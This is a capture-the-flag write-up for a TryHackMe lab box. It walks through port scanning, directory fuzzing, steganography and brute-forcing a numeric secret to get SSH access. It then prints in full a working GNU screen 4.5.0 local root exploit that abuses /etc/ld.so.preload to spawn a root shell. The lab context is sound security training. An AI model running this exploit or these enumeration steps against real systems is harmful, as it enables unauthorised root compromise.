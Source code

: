 ## Target IP: `10.10.78.255`

---

### Environment Setup

```bash
export IP=10.10.78.255
export LIP=10.6.24.56
```

---

### Nmap & Nikto Scans

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
nikto -h http://$IP
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22 | SSH | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 80 | HTTP | Apache httpd 2.4.18 |

---

### Web Enumeration

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -x php
```

- Gobuster returned nothing.
- Apache default page.
- Source code:

```html
<img src="thm.jpg" class="floating_element"/>
<!-- They will never find me-->
```

Downloaded `thm.jpg`, tried to open it — broken. Inspected:

```bash
head thm.jpg
```

- Showed it was actually a PNG, not a JPG.

Fixed using `hexedit`:

```bash
hexedit thm.jpg
```

Changed header to:

```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```

Now it opens. Image reveals:

```
hidden directory /th1s_1s_h1dd3n
```

---

### Hidden Directory Content

Visited `http://10.10.78.255/th1s_1s_h1dd3n`

- Page says:

```
Welcome! I have been expecting you!
To obtain my identity you need to guess my secret!
```

- Source code hint:

```html
<!-- It's between 0-99 but I don't think anyone will look here-->
```

Tried:

```bash
curl -i 'http://10.10.78.255/th1s_1s_h1dd3n/?secret=1'
```

Response size: 407

Tried a 2-digit number:

```bash
curl -i 'http://10.10.78.255/th1s_1s_h1dd3n/?secret=10'
```

Response size: 408

So we filtered for those two:

Made number list (because Kali doesn’t have one):

```python
number = 0
while number < 100:
    number += 1
    print(number)
```

Saved as `numbers.txt`

Brute-forced with:

```bash
ffuf -u http://10.10.78.255/th1s_1s_h1dd3n/?secret=FUZZ -w numbers.txt -fs 407,408
```

**Hit on 73**:

```
Urgh, you got it right! But I won't tell you who I am! [REDACTED]
```

---

### Stego (thm.jpg)

Used password from above to extract hidden file:

```bash
steghide extract -sf thm.jpg
```

Passphrase: `[REDACTED]`

Extracted `hidden.txt`:

```
Fine you found the password!
Here's a username
wbxre
I didn't say I would make it easy for you!
```

**ROT13 of `wbxre` → `joker`**

---

### Second Stego (Box Image)

Needed to use the TryHackMe box image... Not cool but part of the challenge.

- Extracted with `steghide`
- Found `password.txt`

Contents:

```
I didn't think you'd find me! Congratulations!
Here take my password
[REDACTED]
```

---

### SSH Access

```bash
ssh joker@10.10.78.255
```

**Username:** `joker`

**Password:** `*[REDACTED]`

Logged in successfully. Grabbed `user.txt`.

---

### Privilege Escalation (SUID Binary Abuse)

Checked for SUID binaries:

```bash
find /bin -perm -4000
```

**Found: `/bin/screen-4.5.0`**

---

### Explain This:

```bash
find /bin -perm -4000
```

That `-perm -4000` flag means "find all files that have the SUID bit set." SUID = Set User ID. If a binary has that bit, it runs with the **permissions of the file owner**, not the user executing it. If it's owned by root (most are), then it's a potential privilege escalation vector. You’re basically looking for binaries that let regular users execute things with root privileges.

---

### Exploiting screen 4.5.0 (Local Root Exploit)

Downloaded exploit from Google. Used this script:

```bash
#!/bin/bash
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."

cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c

cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0); setgid(0); seteuid(0); setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c

echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"

echo "[+] Triggering..."
screen -ls

/tmp/rootshell
```

Saved as `screenroot.sh` and ran it.

```bash
chmod +x screenroot.sh
./screenroot.sh
```

Spawned **root shell**.

---

### Root Access

```bash
whoami
```

- `root`

Grabbed final flag:

```bash
cat /root/root.txt
```

Output:

```
THM{[REDACTED]}
```
